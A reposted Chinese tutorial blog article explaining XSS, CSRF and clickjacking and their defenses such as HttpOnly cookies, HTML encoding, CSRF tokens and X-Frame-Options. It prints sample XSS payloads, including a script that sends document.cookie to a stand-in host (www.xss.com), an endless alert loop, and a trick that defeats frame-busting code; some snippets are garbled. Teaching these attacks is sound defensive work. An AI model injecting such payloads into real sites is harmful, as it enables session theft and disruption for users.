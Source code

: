 ```yaml
---
title: 【转载】关于XSS攻击和CSRF攻击
description: 暂无描述！
tags:
  - WEB开发
  - Web安全
abbrlink: '70e37285'
date: 2021-03-28 18:28:16
---
```




## 前端安全知识—关于XSS攻击和CSRF攻击

[珠峰培训](javascript:void(0);) *2019-04-05*



> 原文链接：https://mp.weixin.qq.com/s/zDaksmeNKbv75al_jz1ZOg



**XSS**



xss: 跨站脚本攻击（Cross Site Scripting）是最常见和基本的攻击 WEB 网站方法，攻击者通过注入非法的 html 标签或者 javascript 代码，从而当用户浏览该网页时，控制用户浏览器。



**xss 主要分为三类：**



**DOM xss :**



DOM即文本对象模型，DOM通常代表在html、xhtml和xml中的对象，使用DOM可以允许程序和脚本动态的访问和更新文档的内容、结构和样式。它不需要服务器解析响应的直接参与，触发XSS靠的是浏览器端的DOM解析，可以认为完全是客户端的事情。



**反射型 xss :**



反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。发出请求时，XSS代码出现在URL中，最后输入提交到服务器，服务器解析后在响应内容中出现这段XSS代码，最后浏览器解析执行。



**存储型 xss :**



存储型XSS又被称为持久性XSS，它是最危险的一种跨站脚本，相比反射型XSS和DOM型XSS具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。



**跨站脚本攻击可能造成以下影响：**



- 利用虚假输入表单骗取用户个人信息。

  

- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

  

- 显示伪造的文章或图片。



**存储型 xss 案例**



在项目开发中，评论是个常见的功能，如果直接把评论的内容保存到数据库，那么显示的时候就可能被攻击。



如果你只是想试试 xss，可以这样：



```
<fontsize="100"color="red">试试水font>
```



![图片](http://blog.cdn.ionluo.cn/blog/640.webp)

如果带点恶意，可以这样：



```
<script>while (true) {          alert('Hello')      }script>
```



这时，网站就挂了。



当然，最常见 xss 攻击是读取 Cookie：



```
<script>      alert(document.cookie)script>
```



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225616.webp)

Cookie 发送给攻击者的站点：



```
var img =document.createElement('img')  img.src='http://www.xss.com?cookie=' +document.cookie  img.style.display='none'document.getElementsByTagName('body')[0].appendChild(img)
```



当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。



**防御**



按理说，只要有输入数据的地方，就可能存在 XSS 危险。



httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。



```
// koa  ctx.cookies.set(name,value, {      httpOnly:true// 默认为 true  })  `
```



**过滤**



输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。



不仅仅是前端负责，后端也要做相同的过滤检查。

因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。



HtmlEncode某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225606.webp)

当用户输入, 最终保存结果为

<script>window.location.href="http://www.baidu.com"</script>, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。



JavaScriptEncode对下列字符加上反斜杠

![图片](http://blog.cdn.ionluo.cn/blog/640.webp)

**CSRF**



csrf：跨站点请求伪造（Cross-Site Request Forgeries），也被称为 one-click attack 或者 session riding。冒充用户发起请求（在用户不知情的情况下）， 完成一些违背用户意愿的事情（如修改用户信息，删初评论等）。



**可能会造成以下影响：**



- 利用已通过认证的用户权限更新设定信息等；
- 利用已通过认证的用户权限购买商品；
- 利用已通过的用户权限在留言板上发表言论。



一张图了解原理：



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225552.webp)



简而言之：网站过分相信用户。



**与 xss 区别**



通常来说 CSRF 是由 XSS 实现的，CSRF 时常也被称为 XSRF（CSRF 实现的方式还可以是直接通过命令行发起请求等）。



本质上讲，XSS 是代码注入问题，CSRF 是 HTTP 问题。XSS 是内容没有过滤导致浏览器将攻击者的输入当代码执行。CSRF 则是因为浏览器在发送 HTTP 请求时候自动带上 cookie，而一般网站的 session 都存在 cookie里面。



来自某乎的一个栗子：



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225574.webp)



**防御**



- 验证码；强制用户必须与应用进行交互，才能完成最终请求。此种方式能很好的遏制 csrf，但是用户体验比较差。

  

- 尽量使用 post ，限制 get 使用；上一个例子可见，get 太容易被拿来做 csrf 攻击，但是 post 也并不是万无一失，攻击者只需要构造一个form就可以。

  

- Referer check；请求来源限制，此种方法成本最低，但是并不能保证 100% 有效，因为服务器并不是什么时候都能取到 Referer，而且低版本的浏览器存在伪造 Referer 的风险。

  

- token；token 验证的 CSRF 防御机制是公认最合适的方案。



整体思路如下：



第一步：后端随机产生一个 token，把这个token 保存到 session 状态中；同时后端把这个token 交给前端页面；



第二步：前端页面提交请求时，把 token 加入到请求数据或者头信息中，一起传给后端；



后端验证前端传来的 token 与 session 是否一致，一致则合法，否则是非法请求。



若网站同时存在 XSS 漏洞的时候，这个方法也是空谈。



**Clickjacking**



Clickjacking： 点击劫持，是指利用透明的按钮或连接做成陷阱，覆盖在 Web 页面之上。然后诱使用户在不知情的情况下，点击那个连接访问内容的一种攻击手段。这种行为又称为界面伪装(UI Redressing) 。



大概有两种方式：



- 攻击者使用一个透明 iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的 iframe 页面；
- 攻击者使用一张图片覆盖在网页，遮挡网页原有的位置含义。



**案例**



一张图了解

![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225556.webp)

一般步骤



- 黑客创建一个网页利用 iframe 包含目标网站；
- 隐藏目标网站，使用户无法无法察觉到目标网站存在；
- 构造网页，诱变用户点击特点按钮
- 用户在不知情的情况下点击按钮，触发执行恶意网页的命令。



**防御**



X-FRAME-OPTIONS；

X-FRAME-OPTIONS HTTP 响应头是用来给浏览器指示允许一个页面可否在<frame>, <iframe> 或者 <object> 中展现的标记。网站可以使用此功能，来确保自己网站内容没有被嵌到别人的网站中去，也从而避免点击劫持的攻击。



有三个值：



DENY：表示页面不允许在 frame 中展示，即便是在相同域名的页面中嵌套也不允许。

SAMEORIGIN：表示该页面可以在相同域名页面的 frame 中展示。

ALLOW-FROM url：表示该页面可以在指定来源的 frame 中展示。



**配置 X-FRAME-OPTIONS：**



Apache 

把下面这行添加到 'site' 的配置中：



```
Header always append X-Frame-Options SAMEORIGIN
```





nginx



把下面这行添加到 'http', 'server' 或者 'location'，配置中



```
add_header X-Frame-Options SAMEORIGIN;
```



IIS



添加下面配置到 Web.config 文件中



```
  <system.webServer>...<httpProtocol>  <customHeaders>    <add name="X-Frame-Options" value="SAMEORIGIN" />  </customHeaders></httpProtocol>...</system.webServer>
```



js 判断顶层窗口跳转，可轻易破解，意义不大；



```
function locationTop(){  if (top.location != self.location) {     top.location = self.location; return false;  }  return true;  }locationTop();
```



```
// 破解：// 顶层窗口中放入代码var location = document.location;//或者var location = "";
```